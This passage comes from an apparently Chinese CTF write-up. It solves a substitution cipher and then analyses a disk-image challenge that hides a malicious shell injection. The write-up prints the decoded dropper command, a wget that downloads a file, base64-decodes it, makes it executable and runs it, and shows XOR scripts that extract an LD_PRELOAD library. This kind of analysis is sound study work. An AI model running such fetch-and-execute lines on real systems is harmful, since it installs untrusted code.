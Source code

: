 ```
        misc[i]=charlist[p]
        for j in range(i+1,1246):
            te=check(i,j)
            if misc[j]=='0' and te&lt;15:
                misc[j]=charlist[p]
            if te&gt;10 and te&lt;15:
                print i,j
                print "sth error"
                raw_input()
        p += 1
print "".join(misc)
```

这样转换完成后，我们可以对得到的字符串在quipquip上破解单表替代密码：

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017f4edae4aafc2983.png)

最后的空格去掉就是flag。

<br>

**From Russia with Love**

分析dump.img中的程序，发现将第2扇区开始的几个扇区读入到0x1000处，然后跳转到0x1200执行。最后发现会向shell脚本中插入一些字符，插入的代码如下。同时通过ultraiso可以从dump.img中提取得到一个picture.bmp文件。

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01788e538739336ff8.png)



```
f = open('./dump2.img', 'rb')
d = f.read()[0x7e7:].split('x00')[0]
f.close()
s = ''
for i in range(len(d)):
    s += chr(ord(d[i])^0x90)
print s
```

得到的字符串为:

```
wget http://fromrussiawithlove.quals.nuitduhack.com/yzaegrdsfhvzey.txt -O /tmp/b 2&gt; /dev/null &gt; /dev/null; cat /tmp/b | base64 -d &gt; /tmp/a 2&gt; /dev/null; chmod +x /tmp/a 2&gt; /dev/null; /tmp/a &amp;
```

下载得到的/tmp/a为一个elf，将一个lib文件写入了一个/lib/lib_preload。

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d3b6835203ea1263.png)



```
f = open('./a.bin', 'rb')
d = f.read()[0x3ec0:0x3ec0+0xa518]
f.close()
key = 'NDH2017'
d2 = ''
for i in range(0xa518):
    d2 += chr(ord(d[i])^ord(key[i%7]))
print d2
f = open('ldpreload', 'wb')
f.write(d2)
f.close()
```
